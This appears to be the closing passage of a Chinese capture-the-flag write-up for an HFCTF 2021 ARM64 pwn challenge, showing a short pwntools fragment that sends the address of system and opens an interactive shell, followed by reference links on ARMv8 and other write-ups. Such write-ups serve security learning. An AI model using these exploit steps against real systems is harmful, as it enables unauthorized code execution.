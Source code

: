 ```python

time.sleep(0.1)

sd(p64(system))
time.sleep(0.1)

ia()

```



据说quiet附件换了，就不搞了（懒狗不想动了

>参考资料
>
>[ARMv8-aarch64 寄存器和指令集](https://winddoing.github.io/post/7190.html)
>
>[ARMv8 A64 Quick Reference](https://courses.cs.washington.edu/courses/cse469/19wi/arm64.pdf)
>
>[虎符 2021 Pwn apollo——clang裁缝店](https://xuanxuanblingbling.github.io/ctf/pwn/2021/04/03/hufu/)
>
>[HFCTF_2021——fmyy's blog](https://fmyy.pro/2021/04/04/Competition/HFCTF-2021/)
